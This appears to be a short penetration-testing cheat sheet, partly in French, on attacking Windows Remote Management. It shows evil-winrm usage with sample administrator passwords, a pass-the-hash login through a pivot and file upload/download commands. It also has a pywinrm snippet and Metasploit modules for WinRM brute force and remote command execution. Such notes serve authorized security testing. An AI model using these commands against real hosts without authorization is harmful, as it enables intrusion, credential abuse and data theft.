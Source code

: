 # WINRM
## evil-winrm
https://github.com/Hackplayers/evil-winrm

• Step 1. Clone the repo: 
git clone https://github.com/Hackplayers/evil-winrm.git

• Step 2. Ready. Just launch it! ~$ 
cd evil-winrm && 
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

ou

Step 1. Install it: gem install evil-winrm
Step 2. Ready. Just launch it! 

~$ evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'


### avec hash ntlm et à travers un pivot:
evil-winrm -i 172.16.1.20 -u katwamba -H 14a71f9e65448d83e8c63d46355837c3


### commandes pratiques:
upload <fichier>
download <fichier>


## pywinrm
sudo pip install pywinrm
python
session = winrm.Session('<IPorHost>', auth=('administrator','<password here>')


## brute force: metasploit:
use auxiliary/scanner/winrm/winrm_login

## lancer une commande
use auxiliary/scanner/winrm/winrm_cmd
















